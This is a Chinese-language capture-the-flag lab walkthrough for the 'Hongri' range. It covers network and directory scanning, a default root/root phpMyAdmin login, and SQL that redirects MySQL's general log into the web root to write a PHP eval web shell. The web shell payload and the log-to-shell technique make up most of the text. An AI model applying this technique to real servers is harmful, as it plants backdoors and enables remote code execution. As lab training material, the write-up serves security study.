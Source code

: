 # 红日靶场

## 1、拿下web服务器

### 信息收集

> ip 10.10.10.132

#### nmap 扫描

```
nmap -vv 10.10.10.132
```

发现开启了端口有：

80web服务

3306 mysql	

```
Discovered open port 80/tcp on 10.10.10.132
Discovered open port 3306/tcp on 10.10.10.132
```

### 访问80端口

是一个phpinfo()页面:

![在这里插入图片描述](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0ium8ctrgj21ta0t67bn.jpg)

目录扫描得到

```
dirb 10.10.10.132
```

查看存在phpmyadmin

```
使用 root root 登录

#日志写了
Set global general_log='on';
Set global general_log_file='C:/phpStudy/WWW/www22.php';
show variables like 'general_log_file';

Select "<?php eval($_POST['pass']);?>";

Set global general_log_file='C:/phpStudy/WWW/w22.php';
```

获得webshell

![image-20220322185110242](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0iutl6vy6j20ji0ew0ui.jpg)
